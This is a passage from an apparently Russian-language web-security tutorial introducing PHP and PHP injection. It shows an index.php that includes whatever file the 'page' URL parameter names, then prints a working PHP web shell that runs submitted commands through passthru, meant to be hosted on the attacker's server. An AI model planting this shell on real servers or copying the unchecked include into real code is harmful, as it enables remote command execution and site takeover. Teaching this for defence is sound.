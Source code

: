 > Personal Home Page tools, скриптовый язык общего назначения с открытым кодом. Он активно применяется для создания веб приложений и является самым популярный языком для создания динамических веб-сайтов. При работе php генерирует html код, а его скрипты выполняются на стороне сервера и не могут быть увидены клиентом.

Основные возможности php:
- Создание скриптов для выполнения на стороне сервера.
- Создание скриптов для выполнения в командной строке.
- Создание оконных приложений, выполняющихся на стороне клиента (http://gtk.php.net/).

> **PHP инъекция**<br>это еще один вид инъекций, смысл которой заключается в том, чтобы заставить выполнить на стороне атакуемого сервера свой php код. Это становится возможным, когда в php коде неправильным образом используются потенциально опасные функции.

Рассмотрим на самом тривиальном примере. Допустим, вы зашли на сайт, у которого «шапка» выглядит так:

![alt text](./imgs/mod3_5_php1.png) 

При переходе по этим ссылкам URL меняется следующим образом:

```
http://example.com/index.php?page=home
http://example.com/index.php?page=shop
http://example.com/index.php?page=business
http://example.com/index.php?page=subscriptions
http://example.com/index.php?page=gifting
```

Параметр page уязвим к php инъекции, потому что index.php имеет следующий код:

```php
<?php
 if (isset($_GET['page'])) {
  $page = $_GET['page'];
  include($page.".php");
 }
?>
```

Другими словами, на стороне сервера есть php файлы: home.ph, shop.php, business.php, subscriptions.php, gifting.php … а через параметр page скрипт index.php просто их подключает.

Теперь можно у себя на сервере создать вредоносный php код. Рассмотрим его:

```php
<?php
 echo "
  <html>
      <head>
          <title>SHELL</title>
      </head>
      <body>";
 echo "<form method=post>";
 echo "<input type=text name=cmd size=100>";
 echo "</form>";
 echo "<pre>";
 if ((!$_POST['cmd']) || ($_POST['cmd']=="")) {
     $_POST['cmd']="id;pwd;uname -a;ls -la";
 }
 echo "".passthru($_POST['cmd'])."</pre>
      </body>
  </html>";
?>
```

